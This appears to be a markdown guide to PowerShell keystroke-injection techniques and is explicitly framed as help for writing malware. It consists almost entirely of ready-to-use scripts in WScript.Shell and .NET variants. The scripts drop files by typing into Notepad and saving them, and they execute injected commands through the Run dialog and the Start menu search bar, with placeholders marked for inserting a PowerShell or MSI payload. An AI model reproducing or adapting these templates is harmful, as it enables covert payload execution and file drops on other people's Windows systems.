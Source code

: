 # PowerShell

> [!INFO] Software-based Keystrokes Limitation
> When executing the malware. It will not bypass UAC prompt due to whatever software limitation that restricts it to inject keystrokes.

## File Transfer via Text Editor

> [!TIP] Enumerate Text Editors
> Do not feel restricted since it's a malware you're trying to create. You can enumerate any text editors that is installed in the system. It doesn't have only exclusive to `notepad.exe` user.

```powershell
$Object_Shell = New-Object -ComObject "WScript.Shell"

$text_editor = "notepad.exe"
$contents = 'This is a String'
$filepath = "C:\path\to\file.txt"

# Open text editor
$Object_Shell.Run($text_editor)
Start-Sleep -Milliseconds 3000

# Write the contents in the text editor
$Object_Shell.SendKeys($contents)
Start-Sleep -Milliseconds 2000

# Open the Save dialog (Ctrl + S)
$Object_Shell.SendKeys("^s")
Start-Sleep -Milliseconds 2000

# Save path of the file then return
$Object_Shell.SendKeys($filepath)
Start-Sleep -Milliseconds 2000
$Object_Shell.SendKeys("{ENTER}")

# Clean up (Optional, but good practice)
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($Object_Shell) | Out-Null
```

Using .NET variant.

```powershell
Add-Type -AssemblyName System.Windows.Forms

$text_editor = "notepad.exe"
$contents = 'This is a String'
$filepath = "C:\path\to\file.txt"

# Open text editor
Start-Process $text_editor
Start-Sleep -Milliseconds 3000

# Write the contents in the text editor
[System.Windows.Forms.SendKeys]::SendWait($contents)
Start-Sleep -Milliseconds 2000

# Open the Save dialog
[System.Windows.Forms.SendKeys]::SendWait("^s")
Start-Sleep -Milliseconds 2000

# Save path of the file
[System.Windows.Forms.SendKeys]::SendWait($filepath)
Start-Sleep -Milliseconds 1000
```

## Dialogue Box

```powershell
# Add payload here. Such as, PowerShell, MSI, etc
$commands = ""
$Object_Shell = New-Object -ComObject "WScript.Shell"

# Open the Start Menu (Ctrl + Esc)
$Object_Shell.SendKeys("^{ESC}")
Start-Sleep -Milliseconds 2000

# Open Dialogue Box (Win + R)
$Object_Shell.SendKeys("r")

# Inject commands then return
$Object_Shell.SendKeys($commands)
Start-Sleep -Milliseconds 1000
$Object_Shell.SendKeys("{ENTER}")

# Clean up (optional, but good practice)
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($Object_Shell) | Out-Null
```

Using .NET variant.

```powershell
Add-Type -AssemblyName System.Windows.Forms
# Add payload here. Such as, PowerShell, MSI, etc
$commands = ""

# Open the Start Menu (Ctrl + Esc)
[System.Windows.Forms.SendKeys]::SendWait("^{ESC}")
Start-Sleep -Milliseconds 1000

# Open Dialogue Box (Win + R)
[System.Windows.Forms.SendKeys]::SendWait("r")
Start-Sleep -Milliseconds 1000

# Inject commands then return
[System.Windows.Forms.SendKeys]::SendWait($commands)
Start-Sleep -Milliseconds 1000
[System.Windows.Forms.SendKeys]::SendWait("{ENTER}")
```

## Search Bar

```powershell
# Append @ as a prefix in order to execute commands.
# Add payload here. Such as, PowerShell, MSI, etc
$commands = "@"

$Object_Shell = New-Object -ComObject "WScript.Shell"

# Open the Start Menu (Ctrl + Esc)
$Object_Shell.SendKeys("^{ESC}")
Start-Sleep -Milliseconds 2000

# Inject commands then return
$Object_Shell.SendKeys($commands)
Start-Sleep -Milliseconds 1000
$Object_Shell.SendKeys("{ENTER}")

# Clean up (optional, but good practice)
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($Object_Shell) | Out-Null
```

Using .NET variant.

```powershell
Add-Type -AssemblyName System.Windows.Forms

# Append @ as a prefix in order to execute commands.
# Add payload here. Such as, PowerShell, MSI, etc
$commands = "@"

# Open the Start Menu (Ctrl + Esc)
[System.Windows.Forms.SendKeys]::SendWait("^{ESC}")
Start-Sleep -Milliseconds 2000

# Inject commands then return
[System.Windows.Forms.SendKeys]::SendWait($commands)
Start-Sleep -Milliseconds 1000
[System.Windows.Forms.SendKeys]::SendWait("{ENTER}")
```